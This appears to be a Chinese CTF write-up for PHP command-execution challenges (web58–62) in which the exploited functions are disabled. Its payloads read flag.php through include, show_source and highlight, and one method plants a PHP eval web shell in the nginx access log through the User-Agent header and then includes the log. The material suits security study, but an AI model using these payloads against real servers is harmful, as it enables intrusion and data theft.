 ```
c=phpinfo();    //想查看禁用了哪些函数，结果phpinfo()被禁用了
c=system('ls');    //同样被禁用
c=echo shell_execl('ls');    //被禁
c=file_get_contents('index.php');    //读取文件没被禁用
```

# web59:命令执行，禁用函数

```
c=file_get_contents('index.php');    //被禁用

c=include($_GET[1]);      //可以使用
1=LFI(就是HACKBAR自带的读取文件的脚本)    
```

# web60:命令执行，禁用函数

```
c=include($_GET[1]);      //可以使用
1=LFI(就是HACKBAR自带的读取文件的脚本)   

方法二：一句话木马
先在name那边选择User-agent, 在value那边选择<?php eval($_POST[a]);?>，把一句话木马写入
然后
c=include($_GET[1]);&a=highlight('flag.php')  
?1=/var/log/nginx/access.log
```

# web61：命令执行，禁用函数

```
使用POST方法
c=highlight('flag.php');

c=show_source('flag.php');
```

# web62: 命令执行，禁用函数

```
使用POST方法
法一
c=highlight('flag.php');
法二
c=show_source('flag.php');
法三：
c=include('flag.php');echo $flag;    //
```
- **`include` 是 PHP 的文件包含函数**，它会将 `flag.php` 文件的内容加载到当前脚本中并执行。
- 如果 `flag.php` 中定义了全局变量 `$flag`（例如 `$flag = "flag{xxx}";`），那么通过 `include` 引入该文件后，`$flag` 会直接存在于当前脚本的全局作用域中。
- **关键点**：PHP 的文件包含相当于将代码“粘贴”到当前文件中执行，因此 `$flag` 的作用域与当前脚本一致。\
- 你的代码片段 `c=include('flag.php'); echo $flag;` 可以分解为以下步骤：
1. **执行 `include('flag.php')`**
    - 加载并执行 `flag.php`，假设该文件中定义了 `$flag` 变量。
    - `include` 的返回值通常是 `1`（表示成功包含文件），除非 `flag.php` 中显式使用 `return` 返回值（例如 `return "success";`）。
2. **将 `include` 的返回值赋给变量 `c`**
    - 如果 `flag.php` 中没有 `return` 语句，`c` 的值会是 `1`；否则会是 `flag.php` 中 `return` 的内容。
    - 但无论 `c` 的值是什么，**`flag.php` 中定义的变量 `$flag` 已经存在于当前脚本的全局作用域**。
3. **输出 `$flag`**
    - 因为 `$flag` 已经被加载到当前作用域，直接 `echo $flag` 即可输出其值。
